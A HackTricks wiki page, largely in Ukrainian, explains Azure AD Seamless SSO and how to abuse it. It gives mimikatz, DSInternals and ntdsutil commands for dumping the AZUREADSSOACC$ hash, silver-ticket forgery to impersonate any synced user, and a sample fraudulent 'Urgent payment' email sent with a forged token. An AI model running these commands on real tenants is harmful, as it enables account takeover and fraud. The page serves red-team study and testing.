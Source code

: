 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) автоматично **авторизує користувачів, коли вони на своїх корпоративних пристроях**, підключених до вашої корпоративної мережі. Коли ця функція увімкнена, **користувачам не потрібно вводити свої паролі для входу в Azure AD**, і зазвичай навіть вводити свої імена користувачів. Ця функція забезпечує вашим користувачам легкий доступ до ваших хмарних додатків без необхідності в додаткових компонентів на місці.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

В основному Azure AD Seamless SSO **авторизує користувачів**, коли вони **на ПК, приєднаному до локального домену**.

Цю функцію підтримують як [**PHS (Password Hash Sync)**](phs-password-hash-sync.md), так і [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO використовує **Kerberos** для аутентифікації. Коли налаштовано, Azure AD Connect створює **обліковий запис комп'ютера під назвою AZUREADSSOACC`$`** в локальному AD. Пароль облікового запису `AZUREADSSOACC$` **надсилається у відкритому тексті до Azure AD** під час налаштування.

**Квитки Kerberos** **шифруються** за допомогою **NTHash (MD4)** пароля, а Azure AD використовує надісланий пароль для розшифровки квитків.

**Azure AD** відкриває **кінцеву точку** (https://autologon.microsoftazuread-sso.com), яка приймає **квитки** Kerberos. Браузер комп'ютера, приєднаного до домену, пересилає квитки на цю кінцеву точку для SSO.

### On-prem -> cloud

**Пароль** користувача **`AZUREADSSOACC$` ніколи не змінюється**. Тому адміністратор домену може скомпрометувати **хеш цього облікового запису** і потім використовувати його для **створення срібних квитків** для підключення до Azure з **будь-яким синхронізованим локальним користувачем**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
З хешем ви тепер можете **генерувати срібні квитки**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Щоб використати срібний квиток, слід виконати наступні кроки:

1. **Запустіть браузер:** Потрібно запустити Mozilla Firefox.
2. **Налаштуйте браузер:**
* Перейдіть до **`about:config`**.
* Встановіть параметр для [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) на вказані [значення](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Доступ до веб-додатку:**
* Відвідайте веб-додаток, інтегрований з доменом AAD організації. Загальним прикладом є [Office 365](https://portal.office.com/).
4. **Процес аутентифікації:**
* На екрані входу потрібно ввести ім'я користувача, залишивши поле пароля порожнім.
* Щоб продовжити, натисніть TAB або ENTER.

{% hint style="success" %}
Це не обходить MFA, якщо вона увімкнена
{% endhint %}

#### Варіант 2 без dcsync - SeamlessPass

Цей напад також можна виконати **без атаки dcsync**, щоб бути більш непомітним, як [пояснено в цьому блозі](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Для цього вам потрібно лише одне з наступного:

* **TGT скомпрометованого користувача:** Навіть якщо у вас його немає, але користувач був скомпрометований, ви можете отримати його, використовуючи трюк з делегуванням фальшивого TGT, реалізований у багатьох інструментах, таких як [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) та [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Золотий квиток:** Якщо у вас є ключ KRBTGT, ви можете створити TGT, який вам потрібен для атакованого користувача.
* **NTLM хеш або AES ключ скомпрометованого користувача:** SeamlessPass зв'яжеться з контролером домену з цією інформацією, щоб згенерувати TGT.
* **NTLM хеш або AES ключ облікового запису AZUREADSSOACC$:** З цією інформацією та Ідентифікатором безпеки (SID) користувача, якого ви атакуєте, можливо створити сервісний квиток і аутентифікуватися в хмарі (як виконано в попередньому методі).

Нарешті, з TGT можливо використовувати інструмент [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) з:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Додаткову інформацію про налаштування Firefox для роботи з безшовним SSO можна [**знайти в цьому блозі**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Створення квитків Kerberos для користувачів тільки в хмарі~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Якщо адміністратори Active Directory мають доступ до Azure AD Connect, вони можуть **встановити SID для будь-якого користувача в хмарі**. Таким чином, квитки Kerberos **можна створити також для користувачів тільки в хмарі**. Єдина вимога полягає в тому, що SID є правильним [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Зміна SID для адміністраторів тільки в хмарі тепер **блокована Microsoft**.\
Для отримання інформації перевірте [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Хмара через обмежену делегацію на основі ресурсів <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Будь-хто, хто може керувати обліковими записами комп'ютерів (`AZUREADSSOACC$`) у контейнері або OU, в якому знаходиться цей обліковий запис, може **налаштувати обмежену делегацію на основі ресурсів для облікового запису та отримати до нього доступ**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Я у вашому хмарі, читаю електронні листи всіх - злом Azure AD через Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться трюками зламу, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
